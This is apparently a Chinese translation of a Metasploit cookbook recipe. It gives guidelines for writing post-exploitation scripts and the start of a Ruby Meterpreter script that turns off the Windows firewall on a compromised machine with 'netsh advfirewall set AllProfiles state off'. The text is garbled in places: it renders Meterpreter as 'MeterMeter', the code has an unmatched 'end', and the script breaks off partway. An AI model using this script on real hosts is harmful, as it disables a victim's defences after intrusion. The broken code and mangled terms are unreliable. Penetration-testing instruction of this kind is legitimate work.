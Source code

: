 我们将在这里开发的脚本是一个 Windows Vista/7 防火墙反激活器脚本。它将使用名为 `netsh`的 Windows 命令，MeterMeter 将使用名为 `cmd_exec()`的 mixin 在目标机器上执行该命令。

## 准备好了吗

MeterMeter 脚本与被利用的客户端一起在上下文中运行，因此您可以更轻松地专注于希望通过脚本执行的任务。您不必担心连接性或任何其他参数。让我们看看在编写 MeterMeter 脚本时应该牢记的一些重要准则

*   **避免全局变量：**这是在任何框架上编码的一般原则。应避免使用全局变量，因为它们可能会干扰框架变量。仅使用实例、局部和常量变量。
*   **注释的使用：**编写代码时注释是必不可少的。这可以帮助您跟踪负责特定操作的部件。
*   **包括参数：**您可能已经注意到，在一些食谱中，我们是如何随脚本传递参数的。最基本但最有用的参数是 `-h`或 `help`选项。
*   **打印结果：**打印操作结果可以证明脚本执行成功还是失败。应广泛使用 `print_status, print_error`等不同的打印调用来显示相关信息。
*   **平台验证：**确保您验证了希望脚本在其上执行操作的平台。
*   **维护文件约定：**完成脚本编写后，保存在 `/pentest/exploits/framework3/scripts/meterpreter`下。遵循框架文件约定可以避免任何冲突。
*   **混合器的使用：**混合器是MeterMeter中的一个重要概念。使用 mixin，我们可以使脚本看起来更简单、更容易。

在编写 MeterMeter 脚本时，应牢记这些准则。

让我们打开任何文本编辑器开始编写 Ruby 脚本。如果您正在处理回溯，则可以使用 Gedit 文本编辑器。

## 怎么做。。。

1.  Type the following lines of code in the text editor. Before moving on to the explanation section, give a thorough look at the script and try to figure out what each line means. The script is easy to catch.

    ```
    # Author: Abhinav Singh
    # Windows Firewall De-Activator
    #Option/parameter Parsing
    opts = Rex::Parser::Arguments.new(
    "-h" => [ false, "Help menu." ]
    )
    opts.parse(args) { |opt, idx, val|
    case opt
    when "-h"
    print_line "Meterpreter Script for disabling the Default windows Firelwall"
    print_line "Let's hope it works"
    print_line(opts.usage)
    raise Rex::Script::Completed
    end
    }
    # OS validation and command execution
    unsupported if client.platform !~ /win32|win64/i
    end
    begin
    print_status("disabling the default firewall")
    cmd_exec('cmd /c','netsh advfirewall set AllProfiles state off',5) 
    ```

